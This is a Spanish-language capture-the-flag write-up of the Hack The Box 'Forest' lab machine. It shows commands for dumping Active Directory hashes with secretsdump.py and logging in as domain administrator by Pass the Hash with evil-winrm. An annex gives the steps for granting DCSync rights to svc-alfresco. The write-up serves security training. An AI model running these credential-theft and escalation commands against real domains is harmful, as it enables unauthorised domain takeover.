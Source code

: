 ```bash
r1pfr4n@parrot> secretsdump.py 'htb.local/fran:fran123$!@10.10.10.161'
```

El resultado de la ejecución del comando anterior es el siguiente:

![imagen 18](Pasted image 20230716193618.png)

La línea interesante es la siguiente:

```txt 
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```

En este caso, `htb.local\Administrator` es el nombre de usuario completo, `500` es el RID (Relative Identifier), `aad3b435b51404eeaad3b435b51404ee` es el hash LM (Lan Manager) y `32693b11e6aa90eb43d32c72a07ceea6` es el hash NT (NTLM).

La técnica de **Pass The Hash** permite utilizar este hash NT para autenticarse como el usuario administrador sin necesidad de conocer la contraseña en texto plano. De esta manera, con las credenciales `Administrator:32693b11e6aa90eb43d32c72a07ceea6` se podría conectar a la máquina utilizando herramientas como **evil-winrm** o **psexec**. A continuación, se muestra el comando que se utilizaría para conectarse a la máquina como administrador del dominio utilizando **evil-winrm**:

```bash
r1pfr4n@parrot> evil-winrm -i 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'
```

### root.txt

La segunda flag se encuentra en el directorio **Desktop** del usuario **Administrator**:

```powershell
PS C:\Users\Administrator\Desktop> type root.txt
8bd8bcd67695d5752****7b5b15cc2f7
```

## Anexo I: Ejecución de DCSync Attack con svc-alfresco sin Crear una Cuenta Adicional

Es posible explotar el DCSync attack con **svc-alfresco** sin la necesidad de crear una nueva cuenta. Sin embargo, debido al script de reinicio mencionado en el Anexo II, es crucial que se realice dentro de un período de tiempo más corto a 60 segundos.

Los pasos para lograr esto son bastante simples. Primero, se debe agregar a **svc-alfresco** al grupo "Exchange Windows Permissions". Seguidamente, se deben otorgar los permisos DCSync a **svc-alfresco**. Finalmente, se puede ejecutar el script `secretsdump.py` para obtener el hash NT del administrador del dominio. Aquí están los comandos específicos para realizar cada paso:

1. Agregar a svc-alfresco al grupo "Exchange Windows Permissions":

   ```powershell
PS C:\> net group "Exchange Windows Permissions" svc-alfresco /add
   ```

2. Otorgar permisos DCSync a svc-alfresco:

   ```powershell
PS C:\> Add-DomainObjectAcl -Credential $Cred -TargetIdentity 'DC=htb,DC=local' -Rights DCSync -PrincipalIdentity svc-alfresco -Verbose -Domain htb.local
   ```
